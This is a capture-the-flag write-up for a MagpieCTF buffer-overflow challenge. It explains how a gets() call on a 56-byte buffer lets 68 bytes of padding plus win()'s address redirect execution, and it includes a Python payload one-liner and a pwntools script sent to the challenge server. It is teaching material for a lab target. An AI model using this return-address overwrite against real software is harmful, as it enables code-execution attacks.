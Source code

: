 # This outta be large enough right?

## Description

> Come in, B-Team,
>
> We've identified an OmniFlags service that seems to be running on a satelite somewhere. We were able to get a copy of the program, and we suspect that it may be exploitable for identifying a flag. See if you can find it.
>
> Over & out,\
> HQ\
>
>
> `nc srv1.2023.magpiectf.ca 6201`

## Too Small

We are given a `chall.c` source code file

```c
#include <stdio.h>
#include <stdlib.h>
__asm__(".symver realpath,realpath@GLIBC_2.0.5");
void win(){
    printf("Here is your flag:\n");
    exit(0);
}
void vuln(){
  char buf[56];
  gets(buf);
}
int main(){
  vuln();
  return 0;
}
```

Here we can see the program makes a call to `vuln()`, which creates a character buffer and takes in input to fill the buffer, then returns 0. It's clear that we want to call `win()` in order to get our flag, so how shall we do that?

The code implies a buffer overflow attack

{% hint style="info" %}
**Buffer Overflow** - Occurs when the volume of data exceeds the storage capacity of the memory buffer, which overruns the buffer's allocated memory and overwrites adjacent memory locations
{% endhint %}

In the code `chall.c` we can see a buffer of static size 56 allocated, called `buf`. User input is then placed inside this buffer with `gets(buf)`. However, what if the user input exceeds the size `buf` was allocated for? Then those values will be stored in the next slots of memory, after the locations that were allocated by `buf`, which may overwrite important information.

One of these important pieces of information is the stack pointer, which points to the next instruction that the program should execute.&#x20;

Thus, our goal is

1. Overwrite the memory location the stack pointer is currently pointing to
2. Change it so it points at `win`
3. Profit.

First let's make the local executable `chall` executable by setting permissions

```
chmode +x chall
```

Then let's run it with gdb using `gdb chall`

First let's look into the functions of the file

<figure><img src="../../.gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>

We can see that the `win` function is located at 0x08048486. Let's put a pin in that for now, and run the program with `run`

Now, for the user input we want to overflow `buf`. It doesn't matter what dummy values we use, so let's send in "A"'s until we get a segmentation fault. Since we know the buffer has size 56, let's try 100 "A"s first, which we can send in using inline Python code

```
run <<< $(python3 -c 'print("A"*100)')
```

<figure><img src="../../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

We got a segmentation fault, as expected. However, what's notable is the `0x41414141 in ?? ()` response. This is telling us where the program is currently, when it received the segmentation fault, so the `0x41414141` is the stack pointer and `?? ()` is the function the program faulted at.

If you have a good memory, you may recall none of the functions were even close to this location, and the function we ended at is unknown by the program.

If you have a keen eye, you may notice that 0x41 is "A" in hexadecimal.

Putting these together, we can note that not only did we cause a segmentation fault, we also managed to overwrite the stack pointer with "AAAA"

Unfortunately, we want to overwrite the stack pointer with "08048486", the location of `win`, so let's try finding the precise number of "A"s to send such that we cause a segmentation fault, however we do not overwrite the stack pointer.

To spare the painful details, this amounts to 68 "A"s

<figure><img src="../../.gitbook/assets/image (21).png" alt=""><figcaption><p>So close to greatness</p></figcaption></figure>

If you wanted to, doing 69 or more "A"s will cause 41 to seep into the stack pointer from the right. The reason why it comes in from the right is because it is in little endian

{% hint style="info" %}
**Little Endian** - The least sygnificant byte of the data is placed at the byte with the lowest address
{% endhint %}

So instead of 08 03 84 86 we get 86 84 04 08

We are now ready to overwrite the stack pointer with our desired location. Note that the payload needs to be in bytes, so it looks something like this

```python
python3 -c 'import sys; sys.stdout.buffer.write(b"A"*68 + b"\x86\x84\x04\x08")'
```

<figure><img src="../../.gitbook/assets/image (2).png" alt=""><figcaption><p>We win!</p></figcaption></figure>

"Here is your flag:" is printed out, implying we successfully called `win`

## Let Me In

I tried to directly pipe in my Python payload into the netcat command

```python
python3 -c 'import sys; sys.stdout.buffer.write(b"A"*68 + b"\x86\x84\x04\x08")' | nc srv1.2023.magpiectf.ca 6201
```

Unfortunately, it didn't work as the program would just hang. I similarly tried to send the Python to a file `out` and pipe in `cat out | nc srv1.2023.magpiectf.ca 6201` which did not work either.

I had the correct payload, but I just couldn't send the payload innnnn

After a bout of frustration, I settled down and coded up a Python script to communicate with the server

```python
from pwn import *

address = 'srv1.2023.magpiectf.ca'
port = 6201
tcpsocket = remote(address, port)

payload = "A"*68 + "\x86\x84\x04\x08"

tcpsocket.sendline(payload.encode('latin-1'))
print('Sent: 0x' + binascii.hexlify(payload.encode('latin-1')).decode('latin-1'))

print((tcpsocket.recvline()).decode('latin-1')) # Receive line after string is entered
print((tcpsocket.recv()).decode('latin-1')) # Receive the flag
```

## Flag

`magpie{0mn1_fl4g_3v3rywh3r3}`
